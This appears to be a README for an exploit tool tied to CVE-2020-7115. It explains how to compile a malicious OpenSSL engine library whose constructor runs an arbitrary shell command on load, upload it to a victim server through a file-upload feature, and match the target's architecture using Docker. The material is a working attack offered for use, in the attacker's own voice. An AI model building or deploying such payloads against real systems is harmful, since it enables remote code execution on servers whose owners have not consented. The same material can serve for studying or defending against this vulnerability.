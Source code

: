 

# CVE-2020-7115
Create your malicious engine in seconds

# build_engine.sh
Simple script to generate a **malicious engine** ready to be used in openssl [argument injection](https://www.acunetix.com/vulnerabilities/web/argument-injection/) scenarios.

## How to use?

It's very simple, just modify the engine.c file with the command of your choice:

```c
#include <unistd.h>

__attribute__((constructor))
static void init() {
    execl("/bin/sh", "sh", "-c", "COMMAND");
}
```

Once you have done that, now you just need to run the script like this:

```bash
bash build_engine.sh
```
This command will create a folder called output, in it you will find a file called `engine.so` which is the one you should send to the server through a file upload functionality.

## How to raise a docker to run the script and why should I do it?
It is important for you to know that you must create the malicious engine with the same characteristics of the victim system. That is... if the target system is running on a 64-bit linux, you must create the malicious engine on a 64-bit linux.

Docker is an amazing technology for this kind of thing, and setting up your environment is very easy.

First let's download the docker image from [this site](https://hub.docker.com/_/debian) for a 64-bit debian linux system:

```bash
sudo docker pull debian
```

Then we are going to pull up the docker as follows:

```bash
sudo docker run -v `pwd`:/code -it debian
```
Let's understand a little what we did here. The `-v` flag is used to create a volume, in this case we are associating the contents of the `/code` folder with the contents of our current directory folder, hence the use of `pwd`.

With associate I mean that everything that we create or edit in `/code` (folder that is hosted in the root of the docker image), we will have and we will see it in `pwd` and in the opposite direction.

In our case, `pwd` points to the following directory on our local machine:
>>> /home/retr0/CVE-2020-7115/

The -it flag, on the other hand, can be seen as follows:

The `-t (--tty)` flag tells Docker to map a virtual terminal session inside the container. This is commonly used with the `-i (--interactive)` option, which keeps STDIN open even if running in `detached mode`.

So in effect using the `-it` flag is useful when we want to get a shell from the container in question.

## Don't know the  CVE-2020-7115?
No problem, just visit [this post](https://gist.github.com/Retr02332/02a2265047ea1bbb7ba0b61afc346e79), and I am sure you will fully understand this vulnerability.
